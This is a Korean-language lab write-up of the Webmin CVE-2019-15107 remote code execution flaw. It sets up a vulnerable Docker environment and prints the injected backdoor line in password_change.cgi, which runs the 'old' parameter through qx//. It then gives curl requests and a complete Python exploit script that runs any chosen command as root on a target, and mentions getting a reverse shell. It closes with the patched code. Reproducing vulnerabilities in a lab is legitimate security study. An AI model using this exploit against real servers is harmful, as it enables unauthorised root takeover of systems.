

# 서버 관리 도구 Webmin RCE 취약점[CVE-2019-15107]

### 요약

[CVE-2019-15107]는 Unix 시스템에서 사용되는 웹 기반 시스템 관리 도구 Webmin에 발생한 취약점이다. 해당 관리 도구의 기능 중 비밀번호를 변경하는 코드에서 특정 파라미터를 필터를 거치지 않고 바로 쉘 명령에 넘겨서 실행시키면서 임의의 코드를 실행(Remote Code Execution, RCE)할 수 있게 만든다.

### 환경 구성 및 취약 조건

 Webmin 1.920 버전 혹은 1.920 이전 버전을 이용할 때 비밀번호를 변경하는 `password_change.cgi`에서 취약점이 발견되었다. Webmin이 SourceForge를 통해 배포되는 과정에서 악성코드가 주입되면서 취약점이 발생한 형태이다.

본 재현에서는 vulhub에서 사용되었던 webmin 1.910 버전을 이용한다. 또한 Webmin의 `passwd_mode=2`일 때에만 비밀번호 변경이 활성화되기 때문에 `passwd_mode=2`인 상태로 환경을 구축하자.

준비된 1.910 버전의 Webmin 릴리즈 파일 `webmin_1.910_all.deb`와 함께, 취약한 환경을 구성하기 위해 아래 명령어를 입력하자.

```bash
docker compose up -d
```

	
> `Dockerfile`과 `docker-entrypoint.sh` 파일은 vulhub에서 미리 구축해둔 형식을 참고하여 로컬파일에 맞게 재구성하였다.

비밀번호 변경에는 `user`, `old`, `new1`, `new2`와 같은 우리에게 익숙한 파라미터들이 요구된다. 이들 중 `old` 파라미터의 값을 실행해버리는 코드가 삽입되어 있었다.

아래는 1.910버전의 `password_change.cgi` 파일의 일부이다. `qx/$in{'old'}/`가 위에서 말한 `old`의 값을 실행시키는 코드이다. 해당 값을 조절함으로써 임의코드실행이 가능해진다.

```bash
user@user:~/Documents/vulhub/webmin/CVE-2019-15107$ cat password_change.cgi | grep -C5 "\$in{'old'}"
		die "Missing password file configuration";
	}

if ($wuser) {
	# Update Webmin user's password
	$enc = &acl::encrypt_password($in{'old'}, $wuser->{'pass'});
	$enc eq $wuser->{'pass'} || &pass_error($text{'password_eold'},qx/$in{'old'}/);
	$perr = &acl::check_password_restrictions($in{'user'}, $in{'new1'});
	$perr && &pass_error(&text('password_enewpass', $perr));
	$wuser->{'pass'} = &acl::encrypt_password($in{'new1'});
	$wuser->{'temppass'} = 0;
	&acl::modify_user($wuser->{'name'}, $wuser);
```

### 재현 절차

Webmin에서 password_change.cgi를 접속하고, `old` 변수를 조작하여 request를 보냄으로써 취약점을 재현할 수 있다.

### PoC 코드

curl을 이용하든 python을 이용하든 어떤 방식으로든 password_change.cgi로 요청을 보낼 수만 있으면 된다. 세 예문 모두 `old`에 명령어 `id`를 집어넣어 uid를 출력하는 것을 목표로 하였다.

1. **curl(POST)**

```bash
curl -k -X POST https://your-ip:10000/password_change.cgi   -d "user=nonexistent&pam=&expired=2&old=id&new1=test&new2=test"   -H "Referer: https://your-ip:10000/session_login.cgi"    
```

2. **curl(GET)**

```bash
curl -k "https://your-ip:10000/password_change.cgi?user=rootxx&pam=&expired=2&old=id&new1=test&new2=test" -H "Referer: https://your-ip:10000/session_login.cgi"
```

3. **python**

```python
import requests
import sys
import argparse

def exploit_webmin(target, command):
    url = f"https://{target}/password_change.cgi"
    
    # HTTPS 인증서 무시
    requests.packages.urllib3.disable_warnings()
    
    # CVE-2019-15107 payload
    # old 파라미터에 명령어 입력
    data = {
        'user': 'rootxx',
        'pam': '',
        'expired': '2',
        'old': command,  # 명령어
        'new1': 'test2',
        'new2': 'test2'
    }
    headers = {
            'Referer': f'https://{target}/session_login.cgi',
            }
    
    try:
        response = requests.post(
            url, 
            data=data, 
            headers=headers,
            verify=False,
            timeout=5
        )
        
        if response.status_code == 200:
            print("[+] Exploit sent!")
            print("[+] Response:")
            print(response.text)
            return True
        else:
            print(f"[-] Status code: {response.status_code}")
            return False
            
    except Exception as e:
        print(f"[-] Error: {e}")
        return False

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='CVE-2019-15107 Webmin RCE PoC')
    parser.add_argument('-t', '--target', required=True, help='Target IP:port (e.g., 127.0.0.1:10000)')
    parser.add_argument('-c', '--command', default='id', help='Command to execute (default: id)')
    args = parser.parse_args()
    
    print(f"[*] Exploiting Webmin at {args.target}")
    print(f"[*] Command: {args.command}")
    
    exploit_webmin(args.target, args.command)
```

아래와 같이 실행할 수 있다. 

```bash
python3 PoC.py -t your-ip:10000 -c "id"
```

### 실행 결과



위의 방식으로 `old` 파라미터에 원하는 명령어를 집어넣으면 그대로 명령어가 실행된다. 해당 결과를 보면 uid가 전부 0으로 root 권한으로 실행된다는 것을 확인할 수 있다.

즉, 본 [CVE-2019-15107] 취약점은 root 권한으로 RCE를 수행할 수 있다는 것이다.

나아가 따로 리버스쉘을 마련해둔다면, 리버스쉘에 접속시킴으로써 서버의 쉘을 딸 수 있다.

취약점의 재현이 끝났다면 아래 코드를 통해 서비스를 종료할 수 있다.

```bash
docker compose down
```

### 대응 방안

가장 간단한 방식으로 webmin을 업데이트하는 방법이 있다. 

1.930 버전으로 업데이트하면서 바뀐 코드이다. old 값을 실행하는 부분을 그대로 지워버리는 방식으로 처리하였다.

```bash
if ($wuser) {
	# Update Webmin user's password
	$enc = &acl::encrypt_password($in{'old'}, $wuser->{'pass'});
	$enc eq $wuser->{'pass'} || &pass_error($text{'password_eold'});
	$perr = &acl::check_password_restrictions($in{'user'}, $in{'new1'});
	$perr && &pass_error(&text('password_enewpass', $perr));
	$wuser->{'pass'} = &acl::encrypt_password($in{'new1'});
	$wuser->{'temppass'} = 0;
	&acl::modify_user($wuser->{'name'}, $wuser);
	&reload_miniserv();
	}
```

만약 코드 실행 파트가 필요시된다면 `old` 입력값을 검증하는 코드를 삽입하여 해결할 수도 있다.
